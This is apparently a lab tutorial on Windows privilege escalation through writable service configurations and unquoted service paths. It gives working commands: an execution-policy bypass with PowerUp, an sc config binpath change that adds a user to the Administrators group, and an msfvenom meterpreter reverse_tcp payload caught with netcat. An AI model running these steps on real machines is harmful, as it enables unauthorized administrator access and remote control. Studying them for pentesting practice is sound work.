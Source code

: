 # 🛀 Service Permissions (Paths)

### Definitions

* **Service Path**: When Windows starts up or runs certain programs, it often uses "services" to do so. Each service has a specific path that tells Windows where to find the program it needs to run.
* **Quoted vs. Unquoted**: If the service path is "quoted" (enclosed in quotation marks), it tells Windows exactly where to find the program, even if there are spaces in the path. For example: `"C:\Program Files\My Service\service.exe"`. If the service path is "unquoted" (not enclosed in quotation marks), Windows might get confused about where the program is located if there are spaces in the path. For example: `C:\Program Files\My Service\service.exe`.

### Escalation via Binary Paths <a href="#lecture_heading" id="lecture_heading"></a>

first open this file in a cmd and type:

<figure><img src="../../../../.gitbook/assets/image (615).png" alt=""><figcaption></figcaption></figure>

```
powershell -ep bypass
. .\PowerUp.ps1
Invoke-AllChecks
```

1. `powershell -ep bypass`: This command starts a PowerShell session with the execution policy set to bypass. The `-ep` parameter stands for "ExecutionPolicy" and allows you to specify the execution policy for the PowerShell session. Setting it to "bypass" allows scripts to run without any restrictions. This is often used when running scripts that may be blocked by more restrictive execution policies.
2. `. .\PowerUp.ps1`: This command executes a PowerShell script named "PowerUp.ps1" located in the current directory. The `.\` prefix specifies the current directory, and the `.` followed by a space before the script filename indicates that the script should be executed in the current session (rather than in a new session). This is known as "dot-sourcing" a script, which means the script's contents are executed within the current scope rather than in a separate scope.
3. `Invoke-AllChecks`: This command invokes a function or cmdlet named "Invoke-AllChecks". This command is likely a part of the "PowerUp.ps1" script that was dot-sourced in the previous step. The purpose of this command is to trigger the execution of a series of checks or tests within the script. These checks could be related to system configuration, security vulnerabilities, or other aspects of the system that the script is designed to assess.

This is very automatic, in a more manual way, you can cd to this directory:

```
cd \Desktop\Tools\Accesschk
accesschk64.exe -uwcv Everyone *
```

1. **accesschk64.exe**: This is an executable file, specifically for 64-bit Windows systems, that is part of the Sysinternals suite of tools developed by Microsoft. The `accesschk` tool is used to view the effective permissions for files, directories, registry keys, or other securable objects in Windows. In this case, `accesschk64.exe` specifically refers to the 64-bit version of the `accesschk` tool.
2. **-uwcv**: These are command-line options or switches that modify the behavior of the `accesschk64.exe` tool. Here's what each of them does:
   * `-u`: Specifies that the output should display user account names associated with the permissions but no errors, just positive finds.
   * `-w`: Specifies that the output should display only objects for which the specified user has write access.
   * `-c`: Specifies that the output should include containers, such as directories or registry keys, in addition to objects directly specified.
   * `-v`: Specifies that the output should be verbose, providing additional information about the permissions.
3. **Everyone**: This is a placeholder representing the user or group whose permissions are being checked. In this case, it refers to the "Everyone" group, which includes all user accounts, even those without explicit permission.
4. **\***: This wildcard character is used to specify the resource or object for which permissions are being checked. When used with `accesschk`, it typically means to check permissions for all objects that match the specified criteria. In this context, `*` could refer to all files, directories, registry keys, or other securable objects in the system.

<figure><img src="../../../../.gitbook/assets/image (616).png" alt=""><figcaption><p>Manual method</p></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (617).png" alt=""><figcaption><p>Automatic method</p></figcaption></figure>

We can also see that we can restart the service, very important! We could add something malicious and then restart it to gain more privileges, for example.

Now we're goinf to run access check on the service itself to try and get more informations about what's happening

```
accesschk64.exe -wuvc daclsvc
```

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)  (26).png" alt=""><figcaption></figcaption></figure>

we got read write for everyone as we can see

since we are part of the `everyone` groupe; we put it in our previous command, but we could've put in any group. Good thing to note is the `change_config` service that we can modify&#x20;

```
sc qc daclsvc
```

1. **sc**: This is the Service Control command-line utility in Windows. It allows you to communicate with the Service Control Manager and services.
2. **qc**: This is an abbreviation for "queryconfig". It instructs `sc` to display the configuration information for the specified service.
3. **daclsvc**: This is the name of the service for which you want to query the configuration information. In this case, it refers to a service named "daclsvc". Services in Windows are background processes that can be automatically started when the system boots or on demand.

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)  (14).png" alt=""><figcaption></figcaption></figure>

We can see the binary path name, but since we have change\_config enabled we can modify this

```
sc config daclsvc binpath= "net localgroup administrators user /add"
```

and you can see that if we start daclsvc, we can see some changes:

```
net localgroup administrators
sc start daclsvc
net localgroup administrators 
```

<figure><img src="../../../../.gitbook/assets/2024-03-19_14-49.png" alt=""><figcaption></figcaption></figure>

So we're now in the Administrators group

### &#x20; Escalation via Unquoted Service Paths <a href="#lecture_heading" id="lecture_heading"></a>

<figure><img src="../../../../.gitbook/assets/image (1096).png" alt=""><figcaption></figcaption></figure>

An attacker can exploit an unquoted service path by creating a malicious program with a name that Windows might mistakenly run instead of the intended service. For example, if the path is unquoted, Windows might interpret `C:\Program Files\My Service\service.exe` as trying to run a program at `C:\Program.exe` or `C:\Program Files\My.exe` instead of the correct `service.exe`.

So after running PowerUp and starting the InvokeAllchecks command, we search for the unquoted path section:

<figure><img src="../../../../.gitbook/assets/image (1097).png" alt=""><figcaption></figcaption></figure>

So we can see the service _**Unquotedsvc**_ that has an unquoted service path with many spaces.

Now we are going to look at the service more in depth with the Registry Editor (regedit). It provides a tree structure that users can navigate to find specific keys and values. These keys and values are organized in a manner similar to folders and files on a hard drive.

It's good to know that the Windows Registry is a hierarchical database that stores low-level settings for the operating system and for applications that opt to use the registry.

The registry contains configuration settings for the operating system, hardware devices, user preferences, and installed software. Editing the registry can change how Windows or certain applications behave.

So let's look for unquotedsvc in the registry editor:

<figure><img src="../../../../.gitbook/assets/image (1098).png" alt=""><figcaption></figcaption></figure>

So what this means is, when the unquotedsvc service will start, it will load all those file from start to bottom

What could happen here would be that Windows can misinterpret the path and try to execute a different executable than the intended one. Here are the possible interpretations:

* `C:\Program.exe`
* `C:\Program Files\My.exe`
* `C:\Program Files\My Service\service.exe` (the intended executable)

So now we are going to craft our payload, send it to the target and execute it:

craft the payload:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.54.172 LPORT=5454 -f exe -o common.exe
```

host and transfer the payload:

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And of course we are going to save it in the unquoted service path:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So after launching our netcat listener on the port we listed on our msfconsole payload, we're going to restart the unquotedsvc service and look what happens:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And just like that we got our shell!!
